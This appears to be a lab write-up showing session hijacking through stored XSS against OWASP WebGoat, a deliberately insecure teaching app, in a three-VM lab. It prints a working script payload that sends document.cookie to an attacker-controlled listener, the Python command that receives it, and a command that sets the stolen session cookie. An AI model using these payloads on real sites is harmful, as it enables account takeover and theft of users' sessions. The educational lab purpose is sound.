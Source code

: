 # Session Hijack using XSS

## Introduction
A **Session Hijack attack** exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

**Session Hijacking** involves compromising this session cookie, either by stealing or predicting a valid value, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
**Cross-Site Scripting (XSS) attacks** are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* **Reflected XSS Attacks**: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* **Stored XSS Attacks**: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In the following experiment, we will use a **stored XSS attack** to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
The first phase involves ensuring network connectivity between the attacker, the web server, and the victim machine. This step is critical because successful communication is required for the attack to proceed. The ping command is used to verify that each machine can reach the others over the network.

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
Running WebGoat involves setting up a deliberately insecure web application on the Ubuntu server. The command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
pulls the WebGoat Docker image and runs it, exposing it on port 8080. This setup creates a controlled environment where security vulnerabilities, such as XSS, can be safely explored and demonstrated.

### Phase 3: Attacker Account
To begin the attack, the attacker needs an account on the WebGoat application. Using Kali Linux, the attacker opens a browser and navigates to:
```url
http://192.168.28.132:8080/WebGoat/
```
![Attacker Login](images/attacker-login.png) 

The attacker registers a new account by clicking the register button and providing the necessary details. This account will be used to identify and exploit vulnerabilities in the web application.
![Attacker Register](images/attacker-register.png) 

### Phase 4: Identify XSS Vulnerability
The next step is to identify a vulnerability in the WebGoat application. By navigating to the "Cross Site Scripting (stored)" section under "Injection," the attacker accesses a simulated forum where users can post comments.
![xss page](images/xss-page.PNG)

To test for vulnerabilities, the attacker posts a comment with HTML tags: 
```html
<strong> Hello World </strong>
```
![xss test](images/xss-test.PNG)

If the comment is displayed with formatting, it indicates that the application does not properly sanitize input, confirming the presence of an XSS vulnerability.

### Phase 5: Payload Injection
Once the XSS vulnerability is identified, the attacker injects a malicious payload to steal session cookies. The payload:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```
![xss payload](images/attacker-payload.PNG)

is crafted to send the session cookie to the attacker's server. 

This script, when executed by the victim's browser, will fetch all the cookies and send them to the specified URL (the attacker's server).

### Phase 6: Attacker Controlled Server
To receive the stolen cookies, the attacker sets up an HTTP server on Kali Linux. Using the command 
```bash
python3 -m http.server --bind 192.168.28.133 9000
```
![attacker server](images/attacker-server.PNG)

the attacker creates a simple HTTPS server listening on port 9000. This server will capture any incoming HTTP requests, including those generated by the malicious payload.

### Phase 7: Target Access Comment
An unsuspecting user on the Windows VM visits the WebGoat application and views the forum with the injected comment. When the user's browser renders the comment, the embedded script executes, sending the session cookie to the attacker's server. The attacker observes the incoming request on their HTTP server, capturing the session cookie.
![cookie](images/cookie.PNG)


### Phase 8: Use Session Cookie
With the session cookie in hand, the attacker can impersonate the victim. The attacker opens the browser's debugger console (e.g., in Firefox) and uses the command 
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
to set their session cookie to the stolen value. This action allows the attacker to assume the victim's session, gaining unauthorized access to the web application with the same privileges as the victim.
![impersonate](images/impersonate.PNG)

## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References and Inspirations
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack